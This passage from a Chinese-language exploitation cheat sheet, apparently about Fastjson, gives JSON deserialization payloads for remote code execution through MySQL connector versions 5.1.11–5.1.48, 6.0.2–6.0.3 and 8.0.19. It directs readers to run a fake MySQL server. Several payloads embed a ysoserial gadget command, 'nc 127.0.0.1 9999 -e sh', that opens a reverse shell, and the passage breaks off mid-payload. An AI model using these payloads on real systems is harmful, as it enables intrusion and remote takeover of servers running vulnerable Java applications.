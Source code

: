 ### 5.1.11-5.1.48
存在mysql-connect依赖可JDBC反序列化rce。
先启动fake_mysql服务端[https://github.com/fnmsd/MySQL_Fake_Server](https://github.com/fnmsd/MySQL_Fake_Server)，具体使用看JDBC反序列化篇。
```xml
<dependency>
    <groupId>mysql</groupId>
    <artifactId>mysql-connector-java</artifactId>
    <version>5.1.47</version>
</dependency>
```
```json
// mysql 5.1.11-5.1.48
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.jdbc.JDBC4Connection",
    "hostToConnectTo": "127.0.0.1",
    "portToConnectTo": 3306,
    "info": {
        "user": "yso_CommonsCollections6_nc 127.0.0.1 9999 -e sh",
        "password": "12345",
        "maxAllowedPacket": "655360",
        "statementInterceptors": "com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
        "autoDeserialize": "true",
        "NUM_HOSTS": "1"
    },
    "databaseToConnectTo": "dbname",
    "url": ""
}
```
### 6.0.2-6.0.3
```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.LoadBalancedMySQLConnection",
    "proxy": {
        "connectionString": {
            "url": "jdbc:mysql://localhost:3306/test?allowLoadLocalInfile=true&autoDeserialize=true&statementInterceptors=com.mysql.cj.jdbc.interceptors.ServerStatusDiffInterceptor&user=yso_CommonsCollections6_nc 127.0.0.1 9999 -e sh"
        }
    }
}
```
### 8.0.19
```json
{
    "@type": "java.lang.AutoCloseable",
    "@type": "com.mysql.cj.jdbc.ha.ReplicationMySQLConnection",
    "proxy": {
        "@type": "com.mysql.cj.jdbc.ha.LoadBalancedConnectionProxy",
        "connectionUrl": {
            "@type": "com.mysql.cj.conf.url.ReplicationConnectionUrl",
            "masters": [
                {
                    "host": "127.0.0.1"
                }
            ],
            "slaves": [],
            "properties": {
                "host": "127.0.0.1",
                "user": "yso_CommonsCollections6_calc",
                "dbname": "dbname",
```